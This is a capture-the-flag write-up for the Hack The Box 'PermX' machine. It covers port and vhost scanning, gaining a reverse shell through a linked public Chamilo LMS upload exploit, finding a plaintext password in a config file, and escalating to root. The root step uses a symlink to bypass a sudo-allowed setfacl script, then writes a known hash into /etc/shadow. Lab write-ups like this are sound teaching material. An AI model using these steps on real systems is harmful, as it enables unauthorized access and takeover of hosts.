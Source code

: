 # PermX CTF

## Initial foothold :

### Nmap discovery :

```bash
Nmap discovery :
┌──(david㉿kali)-[~]
└─$ sudo nmap -p- -sV -sC 10.129.219.20
[sudo] password for david: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-08 15:02 CEST
Nmap scan report for 10.129.219.20
Host is up (0.012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.83 seconds
```
We add http://permx.htb to our hosts file 

### Vhost scan with gobuster :

Since there is a redirection for each domain with status 302 I decided to put the output in a file then with a grep command get rid of the junk :

```bash
┌──(david㉿kali)-[/mnt/kali-extended/hackthebox]
└─$ gobuster vhost -u http://permx.htb/ -w /usr/share/wordlists/dns/bitquark-subdomains-top100000.txt  --append-domain > out.txt

┌──(david㉿kali)-[/mnt/kali-extended/hackthebox]
└─$ grep -v "Status: 302" out.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://permx.htb/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/dns/bitquark-subdomains-top100000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: lms.permx.htb Status: 200 [Size: 19347]
Found: *.permx.htb Status: 400 [Size: 301]
```
We found a subdomain we add it to our hosts file 

### Directory scan on http://lms.permx.htb/ with gobuster :

```bash
┌──(david㉿kali)-[/mnt/kali-extended/hackthebox]
└─$ gobuster dir -u http://lms.permx.htb/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x txt,html,php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://lms.permx.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/terms.php            (Status: 200) [Size: 16127]
/web                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/web/]
/index.php            (Status: 200) [Size: 19356]
/bin                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/bin/]
/main                 (Status: 301) [Size: 313] [--> http://lms.permx.htb/main/]
/robots.txt           (Status: 200) [Size: 748]
/documentation        (Status: 301) [Size: 322] [--> http://lms.permx.htb/documentation/]
/src                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/src/]
/user.php             (Status: 302) [Size: 0] [--> whoisonline.php]
/license.txt          (Status: 200) [Size: 1614]
/app                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/app/]
/vendor               (Status: 301) [Size: 315] [--> http://lms.permx.htb/vendor/]
/certificates         (Status: 301) [Size: 321] [--> http://lms.permx.htb/certificates/]
/custompages          (Status: 301) [Size: 320] [--> http://lms.permx.htb/custompages/]
/web                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/web/]
Progress: 566832 / 566836 (100.00%)
===============================================================
Finished
===============================================================
```
On the formular I decided to use the default credentials to try :
admin:DigitalOcean7
But wihtout result.

So i search for cve and found this POC : https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc?tab=readme-ov-file
It works great after following the procedure we have a reverse shell

## Privilege escalation from www-data to mtz :

I run a simple python server on my local machine 
And retrieve a linpeas executable with wget on the remote machine

After running linpeas I found a password on a php configuration file :
![password](https://image.noelshack.com/fichiers/2024/28/1/1720456843-screenshot-from-2024-07-08-16-19-59.png)

Don't be confuse by the bcrypt in the log file the password is not encrypted

So we have the following credentials mtz:03F6lY3uXAP2bkW8

Congrats we can cat the user file in the home directory

## Privelege escalation from mtz to root :

I run sudo -l :

```bash
mtz@permx:~$ sudo -l
sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```
Good we can run alc.sh as root user, we check the file :

```bash
mtz@permx:~$ cat /opt/acl.sh	
cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
We can see that there is a flaw here, the check "$target" != /home/mtz/* || "$target" == *..* can be bypassed by using a symlink. For example, creating a symlink to the root folder

```bash
ln -s / root_symlink
```
And executing the script like this :
```bash
sudo /opt/acl.sh mtz rwx /home/mtz/root_symlink/etc/shadow
```
Will allow us to see the content of /etc/shadow and modify it !

In our local machine we type the following command and type test when it asked for a password :

```bash
┌──(david㉿kali)-[~]
└─$ mkpasswd --method=yescrypt
Password: 
$y$j9T$eMM9aLbHznCE2omQKTwRG1$rM3Umy9s5ucyGAI6MSd9JxPgy7Fli8Gbf9UdgpB6Ze4
```
We add the hash to the /etc/shadow file and we su as root with the new password and you can cat the root.txt file 
